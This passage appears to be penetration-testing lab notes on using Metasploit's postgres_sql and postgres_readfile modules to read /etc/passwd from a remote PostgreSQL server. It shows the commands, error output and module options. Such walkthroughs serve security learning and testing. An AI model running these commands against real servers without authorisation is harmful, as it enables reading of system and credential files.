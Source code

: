 [*] Auxiliary module execution completed
msf auxiliary(postgres_sql) >

Trying to obtain /etc/passwd with postgres_sql

With MySQL, we were able to obtain files on the remote machine using the SQL statement select load_file(\'/etc/passwd\'). However, the load_file function isn't available in postgres.

Postgres implements it as load:

msf auxiliary(postgres_sql) > set SQL load \'/etc/passwd\'
SQL => load '/etc/passwd'

This has a problem, though: invalid elf header. (Like it is trying to load a binary file...?)

msf auxiliary(postgres_sql) > run

[-] 10.0.0.27:5432 Postgres - CXX000 SQL statement 'load '/etc/passwd'' returns #<RuntimeError: ERROR	CXX000	Mcould not load library "/etc/passwd": /etc/passwd: invalid ELF header	Fdfmgr.c	L240	Rinternal_load_library>
[*] Auxiliary module execution completed
msf auxiliary(postgres_sql) >

postgres_readfile

We saw above that the postgres_sql exploit doesn't allow you to load files as easily as, say, MySQL.

The readfile exploit in metasploit, however, provides a workaround.

msf auxiliary(postgres_sql) > use auxiliary/admin/postgres/
use auxiliary/admin/postgres/postgres_readfile  use auxiliary/admin/postgres/postgres_sql       
msf auxiliary(postgres_sql) > use auxiliary/admin/postgres/postgres_readfile
msf auxiliary(postgres_readfile) > info auxiliary/admin/postgres/postgres_readfile

       Name: PostgreSQL Server Generic Query
     Module: auxiliary/admin/postgres/postgres_readfile
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  todb <todb@metasploit.com>

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  DATABASE  template1        yes       The database to authenticate against
  PASSWORD                   no        The password for the specified username. Leave blank for a random password.
  RFILE     /etc/passwd      yes       The remote file
  RHOST                      yes       The target address
  RPORT     5432             yes       The target port
  USERNAME  postgres         yes       The username to authenticate as
  VERBOSE   false            no        Enable verbose output

Description:
  This module imports a file local on the PostgreSQL Server into a
  temporary table, reads it, and then drops the temporary table. It
  requires PostgreSQL credentials with table CREATE privileges as well
  as read privileges to the target file.
